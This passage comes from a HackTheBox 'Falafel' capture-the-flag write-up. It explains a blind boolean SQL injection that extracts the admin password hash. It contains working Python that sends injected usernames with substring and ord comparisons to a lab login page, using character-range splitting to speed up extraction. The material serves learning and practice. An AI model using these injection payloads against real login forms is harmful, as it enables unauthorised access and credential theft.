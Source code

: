 ``` python
print('\nHash is:\t'+password+'\n')
```

Once we run the script we get the admin users' hash.

![Hash Extracted](/HackTheBox/htb-falafel-writeup-w-o-metasploit/9_auto1.png)

Although this script works, it does take quite some time to run. So I created another script which would perform some extra queries to the database before it checks whether a particular range of characters are in users' hashs' X position or not.

The first check is to find if the character in X position is an alphabet or not. If so, it is checked if it belongs to [a-f] group or the rest. If it's a hash, it'll always belong to a-f group which is "alpha1" in the below code.
If it's not an alphabet, it's checked if the number belongs to [0-4] group or [5-9].
Once the group is sent back, SQLstring is used to generate payloads for characters in only those groups for X position. This reduces the amount of requests sent to the server, and we extract the hash much faster.

These checks are done using "ord". Ordinal numbers are just decimal numbers. We convert the output of the substring to ord and perform a check if it's greater than 58, ascii(9) = decimal(57), thus checking if the character in that position is an alphabet.

| Numbers (dec hex ascii) | Alphabets (dec hex ascii) |
|-------------------|-------------------|
| ![](/HackTheBox/htb-falafel-writeup-w-o-metasploit/13_ord1.png) | ![](/HackTheBox/htb-falafel-writeup-w-o-metasploit/13_ord2.png) |

Check out `man ascii` to view the entire table.

``` python
import requests


def SQLstring(i,c):
    # We only want 1 password character at a time
    # Final payload will look like
    # username=admin'+AND+substring(password,1,1)='a'--+-&password=noobsec
    return "admin' AND substring(password,%s,1)='%s'-- -" % (i,c)


def SQLsplit(i):
    # Checking if the character is an alphabet
    sql = "admin' AND ord(substring(password,%s,1)) > '58'-- -" % i
    payload = {'username':sql, 'password':'noobsec'}
    r = requests.post('http://10.10.10.73/login.php', data=payload)
    if "Wrong identification" in r.text:
    # Checking if it's beyond "f"
        sql = "admin' AND ord(substring(password,%s,1)) > '102'-- -" % i
        payload = {'username':sql, 'password':'noobsec'}
        r = requests.post('http://10.10.10.73/login.php', data=payload)
        if "Wrong identification" in r.text:
            return "alpha2"
        else:
        # If not beyond "f"
            return "alpha1"
    # Character is a number
    else:
    # Checking if number is less than "5"
        sql = "admin' AND ord(substring(password,%s,1)) < '53'-- -" % i
        payload = {'username':sql, 'password':'noobsec'}
        r = requests.post('http://10.10.10.73/login.php', data=payload)
        if "Wrong identification" in r.text:
            return "num1"
        else:
        # If number is greater than 5
            return "num2"
```